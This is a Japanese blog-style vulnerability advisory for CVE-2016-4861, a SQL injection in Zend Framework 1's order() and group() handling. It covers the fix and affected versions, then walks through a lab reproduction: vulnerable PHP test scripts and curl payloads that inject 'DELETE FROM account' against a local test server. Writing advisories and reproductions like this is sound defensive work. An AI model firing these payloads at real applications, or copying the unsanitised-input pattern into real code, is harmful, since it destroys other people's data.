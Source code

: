 ```yaml
---
layout: post
title:  "CVE-2016-4861 - Zend Framework における SQL インジェクションの脆弱性"
date:   2016-09-16 11:00:00 +0900
categories: vulnerability
toc: true
---
```


# 概要

HASHコンサルティング株式会社 徳丸 浩 さんにより、ZendFramework 1に[Zend_Db_Select](https://framework.zend.com/manual/1.12/ja/zend.db.select.html)のOrder by句およびGroup By句の引数の処理に起因するSQLインジェクションの脆弱性が発見されました。

# CVSS v3

2016年09月16日時点でNVDは非公開

# 解決策、緩和策情報

 * Zend Framework 1.12.20へのアップグレードしてください。
 * 修正コミット情報
   * [b1c71dd94296d9000127720c85a7ea9e3b35af4b](https://github.com/zendframework/zf1/commit/b1c71dd94296d9000127720c85a7ea9e3b35af4b)
   * [bf3f40605be3d8f136a07ae991079a7dcb34d967](https://github.com/zendframework/zf1/commit/bf3f40605be3d8f136a07ae991079a7dcb34d967)

# 影響を受けるソフトウェアとバージョン

 * Zend Framework 1.12.20以前のversion

Zned Framework 2系, 3系はこの脆弱性の影響を受けません。

# 技術的な詳細

## Zend Framework 1.12.19の環境構築

 * Zend Framework 1.12.19のダウンロード

```
kosuke@scapegoat ~ $ wget https://packages.zendframework.com/releases/ZendFramework-1.12.19/ZendFramework-1.12.19.tar.gz
kosuke@scapegoat ~ $ tar zxvf ZendFramework-1.12.19.tar.gz
```

 * php.iniを編集する

```
root@scapegoat:~# vim /etc/php5/apache2/php.ini
include_path = ".:/home/kosuke/ZendFramework-1.12.19/library"
```

 * テスト用スクリプト

```
root@scapegoat:~# cat /var/www/html/zend.php
<?php
require_once 'Zend/Version.php';
echo 'Hello, Zend Framework! Ver ' . Zend_Version::VERSION;
```

 * Apacheを再起動

```
root@scapegoat:~# service apache2 restart
```

 * Zendが稼働することを確認

```
root@scapegoat:~# curl http://scapegoat.test/zend.php
Hello, Zend Framework! Ver 1.12.19
```

## テスト用のMySQLの環境を構築

 * MySQLユーザとデータベースの作成

```
kosuke@scapegoat ~ $ mysql -uroot -pmust_rewrite
mysql> create database CVE_2016_4861;
mysql> GRANT ALL ON CVE_2016_4861.* TO 'zend'@'%' IDENTIFIED BY 'pass';
```

 * MySQLのテーブルを作成

```
kosuke@scapegoat ~ $ mysql -uzend -ppass
mysql> use CVE_2016_4861;
Database changed
mysql> create table account (id int, name varchar(100), password varchar(100));
Query OK, 0 rows affected (0.01 sec)

mysql> desc account;
+----------+--------------+------+-----+---------+-------+
| Field    | Type         | Null | Key | Default | Extra |
+----------+--------------+------+-----+---------+-------+
| id       | int(11)      | YES  |     | NULL    |       |
| name     | varchar(100) | YES  |     | NULL    |       |
| password | varchar(100) | YES  |     | NULL    |       |
+----------+--------------+------+-----+---------+-------+
3 rows in set (0.00 sec)

mysql> insert into account (id, name, password) values(1, 'hoge', 'h0ge');
Query OK, 1 row affected (0.03 sec)

mysql> insert into account (id, name, password) values(2, 'foo', 'f00');
Query OK, 1 row affected (0.00 sec)

mysql> insert into account (id, name, password) values(3, 'bar', 'b@r');
Query OK, 1 row affected (0.00 sec)
```

## order byの検証

 * order.php

```php
<?php
require_once 'Zend/Db.php';
$mysql_info = array ('host' => '127.0.0.1',
                    'username' => 'zend',
                    'password' => 'pass',
                    'dbname'   => 'CVE_2016_4861',
                    'charset'   => 'UTF8'
                    );

$order = $_POST['order'];

$db = Zend_Db::factory('PDO_MYSQL', $mysql_info);
$select = $db->select();
$select->from('account');
$select->order($order);
$stmt = $db->query($select);
$result = $stmt->fetchAll();
var_dump($result);
?>
```

 * 脆弱性を利用してaccountテーブルのすべてのレコードを削除する

```
kosuke@scapegoat ~ $ curl --data-urlencode "order=MD5(\"a(\");DELETE FROM account; #)" http://scapegoat.test/order.php
```

![order]({{site.baseurl}}/images/2016/09/16/order.gif)

## group byの検証

 * group.php

```php
<?php
require_once 'Zend/Db.php';
$mysql_info = array ('host' => '127.0.0.1',
                    'username' => 'zend',
                    'password' => 'pass',
                    'dbname'   => 'CVE_2016_4861',
                    'charset'   => 'UTF8'
                    );

$group = $_POST['group'];

$db = Zend_Db::factory('PDO_MYSQL', $mysql_info);
$select = $db->select();
$select->from('account');
$select->group($group);
$stmt = $db->query($select);
$result = $stmt->fetchAll();
var_dump($result);
?>
```

 * 脆弱性を利用してaccountテーブルのすべてのレコードを削除する

```
kosuke@scapegoat ~ $ curl --data-urlencode "group=MD5(\"a(\");DELETE FROM account; #)" http://scapegoat.test/group.php
```

![group]({{site.baseurl}}/images/2016/09/16/group.gif)


# 追跡が必要な情報元

 * [CERT](https://www.kb.cert.org/vuls/byid?query=CVE-2016-4861&searchview=)
 * [Debian](https://security-tracker.debian.org/tracker/CVE-2016-4861)
 * [Github](https://github.com/search?q="CVE-2016-4861")
 * [LWN](https://lwn.net/Search/DoSearch?words=CVE-2016-4861)
 * [NVD](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-4861)
 * [PacketStorm](https://packetstormsecurity.com/search/?q=CVE-2016-4861)
 * [Redhat](https://access.redhat.com/security/cve/CVE-2016-4861)
 * [Ubuntu](https://people.canonical.com/~ubuntu-security/cve/CVE-2016-4861.html)
 * [bugtraq](https://marc.info/?s=CVE-2016-4861&l=bugtraq)
 * [exploitdb](https://www.exploit-db.com/search/?action=search&cve=2016-4861)
 * [fulldisc](https://marc.info/?s=CVE-2016-4861&l=full-disclosure)
 * [metasploit](https://www.rapid7.com/db/search?q=CVE-2016-4861)
 * [oss-sec](https://marc.info/?s=CVE-2016-4861&l=oss-security)

# 参考文献

 * https://framework.zend.com/security/advisory/ZF2016-03
 * http://jvndb.jvn.jp/ja/contents/2016/JVNDB-2016-000158.html
 * http://qiita.com/Kaki_Shoichi/items/d12b98d6ea56cfd1a6d4
 * https://framework.zend.com/manual/1.12/ja/zend.db.select.html
 * https://github.com/zendframework/zf1/blob/a90f3a8d71e0788020f730da83674b7312bd3b16/library/Zend/Db/Select.php#L89

